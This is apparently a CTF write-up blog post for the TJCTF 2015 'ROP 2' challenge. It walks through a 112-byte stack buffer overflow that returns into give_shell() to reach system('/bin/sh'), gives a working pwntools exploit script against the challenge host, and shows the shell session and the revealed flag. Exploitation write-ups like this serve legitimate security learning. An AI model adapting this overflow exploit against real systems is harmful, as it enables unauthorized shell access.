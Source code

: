 ```yaml
---
layout: post
title: "TJCTF 2015 ROP 2"
date: 2015-04-29 01:40:45 -0400
author: [superkojiman]
comments: true
categories: [tjctf]
---
```


### Solved by superkojiman

This is similar to ROP 1 in that we want to return to the give_shell() function to get our shell. Much like ROP 1, the offset to overwrite the saved return pointer in the name() function is 112 bytes. Returning directly to give_shell() won't get us a shell due to some checks that it makes. To get around it, just return to 0x08048568 in give_shell(), which sets up the call to system():


```python
#!/usr/bin/env python 
from pwn import *

# address of start of system("/bin/sh"):
#   0x8048568 <give_shell+51>:   mov    DWORD PTR [esp],0x8048710
#   0x804856f <give_shell+58>:   call   0x80483e0 <system@plt>
give_shell = p32(0x08048568) 

buf = ""
buf += "A"*112 + give_shell

r = remote("p.tjctf.org", 8093)
print r.recv()
r.send(buf + "\n");
r.interactive()
```

Run it to get a shell on the target: 

```text
koji@pwnbox32:~/Desktop/rop-2/dock$ ./sploit.py 
[+] Opening connection to p.tjctf.org on port 8093: Done
Enter your name 
[*] Switching to interactive mode
$ id
uid=1000(app) gid=1000(app) groups=1000(app)
$ ls
Dockerfile
etc
flag
prog
rop2
wrapper
$ cat flag
does_this_really_count_as_programming
```

The flag is: does_this_really_count_as_programming
